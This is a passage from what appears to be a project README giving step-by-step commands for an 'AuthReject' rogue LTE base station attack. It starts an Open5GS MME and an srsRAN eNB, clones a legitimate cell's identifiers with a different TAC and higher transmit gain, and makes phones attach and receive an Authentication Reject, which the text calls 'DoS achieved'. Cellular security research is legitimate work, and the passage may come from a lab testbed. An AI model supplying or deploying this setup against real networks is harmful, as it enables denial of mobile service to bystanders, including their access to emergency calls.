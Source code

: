 ### 4. Start AuthReject Components

#### Terminal 1: Start AuthReject MME
```bash
sudo open5gs-mmed -c /etc/open5gs/mme.yaml
```

#### Terminal 2: Start AuthReject eNB
```bash
sudo srsenb /root/.config/srsran/authreject_enb.conf
```

### 5. Monitor Attack
```bash
# Monitor AuthReject eNB logs
tail -f /tmp/authreject_enb.log

# Monitor AuthReject MME logs (look for "IMSI unknown" rejection messages)
tail -f /var/log/open5gs/mme.log

# Expected behavior:
# - UE detects AuthReject cell (stronger signal, TAC 0x0008)
# - UE attempts attach due to TAC mismatch
# - MME rejects with "IMSI unknown in HSS" or similar error
# - UE denied service (DoS achieved)
```

## Parameter Adjustment Template

### If your legitimate setup differs:

| Parameter | Your Legitimate Value | AuthReject Formula |
|-----------|----------------------|-------------------|
| MCC | [your_mcc] | SAME |
| MNC | [your_mnc] | SAME |
| TAC | [your_tac] | DIFFERENT (e.g., [your_tac] + 1) |
| EARFCN | [your_earfcn] | SAME |
| TX Gain | [your_tx_gain] | [your_tx_gain] + 10 |
| Cell ID | [your_cell_id] | DIFFERENT |
| PCI | [your_pci] | UNUSED VALUE |

## Attack Flow Diagram

```mermaid
sequenceDiagram
    participant UE
    participant AR as AuthReject
    participant LBS as Legitimate BS

    Note over UE,LBS: Initial State: UE connected to legitimate 4G
    rect rgb(255, 200, 200)
        AR->>UE: Broadcast (Stronger signal, TAC=0x0008)
        UE->>AR: Attach Request
        AR->>UE: Authentication Reject
        Note over UE: UE connection fails - DoS achieved
        UE->>UE: May retry authentication or search networks
    end

    Note over UE,LBS: Result: UE denied service through AuthReject network
```